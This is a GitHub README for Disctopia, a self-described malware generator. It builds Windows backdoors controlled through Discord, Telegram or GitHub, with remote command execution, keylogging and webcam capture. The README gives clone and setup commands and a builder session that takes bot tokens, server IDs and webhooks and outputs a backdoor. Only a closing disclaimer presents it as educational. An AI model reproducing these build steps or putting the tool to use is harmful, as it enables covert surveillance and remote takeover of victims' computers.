 <h1 align="center">
  <br>
  <a href="https://github.com/3ct0s/"><img src="https://i.ibb.co/K0RqpVb/disctopia.png" width=600 weigth=500 alt="Disctopia"></a>
  <br>
  Disctopia
  <br>
</h1>

<h4 align="center">Disctopia Command and Control</h4>

<p align="center">
    <img src="https://img.shields.io/badge/Backdoor_Platform-Windows-blue">
    <img src="https://img.shields.io/badge/Version-2.0.0-blue">
    <img src="https://img.shields.io/badge/Python-3.8.9-blue">
</p>

---

## What is Disctopia?

Disctopia is a malware generator that generates backdoors which use online platforms as C2s. This includes, Discord, Telegram and Github. 

## How does it work?

The disctopia backdoors are using libraries which allow the backdoor to act as a "Bot" for the above mentioned platorms. Essentially the attacker contacts the bot and the specifies a malicious command to execute on the target "Agent". 

Disctopia is equiped with a lot of features **some** of which are:
- Encrypted traffic (HTTPS)
- Running system commands on target Agent
- Keylogger (Limited to Discord)
- Grabbing webcam snaps
- Multiple online agents a time (Limited to Discord & GitHub)

## Installation and Usage

Disctopia is better installed and used on Kali Linux:
```
git clone https://github.com/3ct0s/disctopia-c2
cd ./disctopia-c2
chmod +x setup.sh
./setup.sh
```
Once this is done we can use the builder. Lets build a discord based C2 backdoor:
```
python builder.py
use discord
set name <backdoor-name>
set guild-id <server id from discord>
set bot-token <discord bot token>
set channel-id <channel id from discord server>
set webhook <discord webhook>
build
```

## How to Setup Disctopia
Since the setup process is very specific for each platform:

> Please follow the [setup guide](https://github.com/3ct0s/disctopia-c2/wiki/Setup-Guide) to setup Disctopia.




## Contributors
Contributions are welcome. For anyone who is interested in contributing to Disctopia, please make sure you fork the project and make a pull request.
## Disclaimer

This github repository is made for educational purposes only. The developer is not responsible for any misuse of this software. **Do not use this software for illegal purposes.**
